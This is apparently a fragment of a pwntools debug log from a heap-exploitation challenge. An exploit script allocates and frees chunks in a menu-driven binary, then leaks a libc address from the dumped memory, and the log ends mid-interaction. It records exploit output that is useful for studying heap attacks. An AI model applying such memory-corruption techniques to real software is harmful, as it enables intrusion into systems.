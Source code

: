 ```bash
    b'-----Exit------\n'
    b'-----Resize----\n'
[DEBUG] Received 0x7 bytes:
    b'Where? '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x6 bytes:
    b'size? '
[DEBUG] Sent 0x3 bytes:
    b'32\n'
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x70 bytes:
    b'-----Options---\n'
    b'-----Alloc-----\n'
    b'-----Free------\n'
    b'-----View------\n'
    b'-----Edit------\n'
    b'-----Exit------\n'
    b'-----Resize----\n'
[DEBUG] Received 0x7 bytes:
    b'Where? '
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x77 bytes:
    b'-----Options---\n'
    b'-----Alloc-----\n'
    b'-----Free------\n'
    b'-----View------\n'
    b'-----Edit------\n'
    b'-----Exit------\n'
    b'-----Resize----\n'
    b'Where? '
[DEBUG] Sent 0x2 bytes:
    b'0\n'
[DEBUG] Received 0x77 bytes:
    00000000  a0 2c 3e d8  2b 7f 0a 2d  2d 2d 2d 2d  4f 70 74 69  │·,>·│+··-│----│Opti│
    00000010  6f 6e 73 2d  2d 2d 0a 2d  2d 2d 2d 2d  41 6c 6c 6f  │ons-│--·-│----│Allo│
    00000020  63 2d 2d 2d  2d 2d 0a 2d  2d 2d 2d 2d  46 72 65 65  │c---│--·-│----│Free│
    00000030  2d 2d 2d 2d  2d 2d 0a 2d  2d 2d 2d 2d  56 69 65 77  │----│--·-│----│View│
    00000040  2d 2d 2d 2d  2d 2d 0a 2d  2d 2d 2d 2d  45 64 69 74  │----│--·-│----│Edit│
    00000050  2d 2d 2d 2d  2d 2d 0a 2d  2d 2d 2d 2d  45 78 69 74  │----│--·-│----│Exit│
    00000060  2d 2d 2d 2d  2d 2d 0a 2d  2d 2d 2d 2d  52 65 73 69  │----│--·-│----│Resi│
    00000070  7a 65 2d 2d  2d 2d 0a                               │ze--│--·│
    00000077
[*] Libc Address => 139826284408832
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x7 bytes:
    b'Where? '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x6 bytes:
    b'size? '
[DEBUG] Sent 0x3 bytes:
    b'32\n'
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x77 bytes:
    b'-----Options---\n'
    b'-----Alloc-----\n'
```